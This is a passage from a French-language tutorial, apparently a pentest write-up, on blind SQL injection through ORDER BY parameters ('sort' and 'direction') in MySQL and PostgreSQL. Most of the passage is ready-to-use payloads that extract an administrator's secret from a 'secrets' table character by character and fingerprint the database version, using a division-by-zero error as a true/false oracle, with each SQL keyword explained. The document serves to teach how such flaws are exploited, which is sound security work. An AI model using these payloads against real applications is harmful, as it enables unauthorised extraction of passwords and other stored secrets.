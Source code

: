 ```sql
(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),3,1))=ORD('n')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

Son secret est "Mon mot de passe est passw0rd"

_Exploitation du paramètre "direction"_

L'exploitation du paramètre "direction" est très similaire à celle du paramètre "sort". Pour cette raison, seule la récupération du secret de l'administrateur sera illustrée :&#x20;

```sql
ASC,(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),1,1))=ORD('M')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
ASC,(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),2,1))=ORD('o')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
ASC,(SELECT (CASE WHEN (ORD(SUBSTRING((SELECT secret FROM secrets LIMIT 1 OFFSET 0),3,1))=ORD('n')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

#### PostgreSQL

_Exploitation du paramètre "sort"_

La payload utilisée est celle-ci :

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(DATA_TO_RETRIEVE),1,1))=ASCII('CHAR_TO_RETRIEVE') THEN lastname ELSE (1/(SELECT 0))::text END)
```

Lorsque la condition est vraie, le résultat sera trié par la colonne "lastname". Sinon, selon l'application, une erreur générique ou une page blanche sera renvoyée.

`CASE` : Permet d'exécuter une instruction conditionnelle.

`WHEN` : Condition de l'instruction conditionnelle.

`ASCII` : Retourne le code ASCII du premier caractère d'une chaîne de caractères.

`SUBSTRING` : Extrait une sous-chaîne.

`THEN` : Lorsque le condition est vérifiée, le résultat est trié par la colonne "lastname".

`ELSE` : Lorsque la condition n'est pas vérifiée, la division par zéro va provoquer une erreur "Error: SQLSTATE\[22012]: Division by zero: 7 ERREUR: division par zéro".&#x20;

Récupération de la version de PostgreSQL :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(VERSION(),1,1))=ASCII('P') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(VERSION(),2,1))=ASCII('o') THEN lastname ELSE (1/(SELECT 0))::text END)
```

